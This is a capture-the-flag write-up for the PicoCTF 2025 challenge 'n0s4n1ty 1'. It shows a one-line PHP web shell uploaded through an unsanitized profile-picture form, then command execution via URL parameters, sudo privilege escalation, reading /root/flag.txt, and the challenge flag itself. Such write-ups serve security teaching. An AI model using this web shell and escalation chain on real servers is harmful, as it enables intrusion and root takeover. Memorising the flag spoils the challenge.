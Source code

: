 # **Write-Up: n0s4n1ty 1 (PicoCTF 2025)**  

## **Challenge Overview**  

In this challenge, a developer has implemented a **profile picture upload** feature on a website. However, the file upload mechanism is not properly secured, allowing for **arbitrary file uploads**. This presents an opportunity to upload a **malicious PHP script**, execute system commands, and ultimately retrieve the flag located in the `/root` directory.  

---

## **Hints and Initial Analysis**  

The challenge provides two key hints:  

1. **"File upload was not sanitized."**  
   - This suggests that the system does not properly validate uploaded files, meaning it might allow **arbitrary file execution**.  

2. **"Whenever you get a shell on a remote machine, check `sudo -l`."**  
   - This implies that **privilege escalation** might be possible once access to the system is obtained.  

---

## **Step 1: Exploring the Web Application**  

### **1. Accessing the Website**  
The challenge provides a URL:  

```
http://standard-pizzas.picoctf.net:51555/
```

Upon opening the page, a **profile picture upload** feature is available. This is a common place where **file upload vulnerabilities** are introduced if proper security measures are not in place.  

### **2. Testing File Upload Restrictions**  
To assess how the system handles uploads, a standard `.jpg` image was uploaded. Observing the response, it became clear that the system **stored the uploaded files without modifying their names**—an indication that an **arbitrary file upload attack** might work.  

---

## **Step 2: Exploiting the File Upload Vulnerability**  

Since the system does not properly validate uploads, a **malicious PHP web shell** can be uploaded to gain control over the server.  

### **1. Creating a Malicious Web Shell**  

A simple PHP shell script was created:  

```php
<?php system($_GET['cmd']); ?>
```

- This script takes an input parameter (`cmd`) from the URL and executes it as a system command.
- If executed successfully, commands such as `ls` or `whoami` can be run remotely.  

### **2. Uploading the Web Shell**  

The file (`shell.php`) was uploaded using the profile picture upload form.  

After uploading, the next step was to find the exact URL where the file was stored. Based on common upload directories, a few potential paths were tested:  

```
http://standard-pizzas.picoctf.net:51555/uploads/shell.php
http://standard-pizzas.picoctf.net:51555/images/shell.php
http://standard-pizzas.picoctf.net:51555/profile_pics/shell.php
```

After some testing, the correct path was identified, confirming that **the uploaded PHP shell was executable**.

---

## **Step 3: Remote Command Execution (RCE)**  

With the PHP shell in place, arbitrary system commands could be executed by appending them as parameters in the URL.  

### **1. Verifying Access to the Server**  
Executing the following command to list files in the current directory:  

```
http://standard-pizzas.picoctf.net:51555/uploads/shell.php?cmd=ls
```

**Expected Output:**
```
1619046.png  shell.php
```

This confirmed **successful remote command execution (RCE)**.

### **2. Checking User Privileges**  
To determine the current user, the following command was executed:  

```
http://standard-pizzas.picoctf.net:51555/uploads/shell.php?cmd=id
```

**Output:**
```
uid=33(www-data) gid=33(www-data) groups=33(www-data)
```

The shell was running as **`www-data`**, a low-privilege web server user.

### **3. Checking for Sudo Permissions**  
Following the challenge hint, the next step was to check for **sudo permissions**:  

```
http://standard-pizzas.picoctf.net:51555/uploads/shell.php?cmd=sudo%20-l
```

**Output:**
```
User www-data may run the following commands:
    (ALL) NOPASSWD: ALL
```

This confirmed that **the `www-data` user had unrestricted sudo access**, meaning **full root control** could be obtained.

---

## **Step 4: Privilege Escalation and Retrieving the Flag**  

### **1. Switching to Root**  
Since the `www-data` user could execute any command as root **without a password**, it was possible to escalate privileges instantly:  

```
http://standard-pizzas.picoctf.net:51555/uploads/shell.php?cmd=sudo%20whoami
```

**Output:**
```
root
```

This confirmed **root access**.

### **2. Reading the Flag File**  
Since the flag was stored in `/root/flag.txt`, the following command was executed:  

```
http://standard-pizzas.picoctf.net:51555/uploads/shell.php?cmd=sudo%20cat%20/root/flag.txt
```

**Flag Output:**
```
picoCTF{wh47_c4n_u_d0_wPHP_80eedb7d}
```

This successfully retrieved the flag, completing the challenge.

---
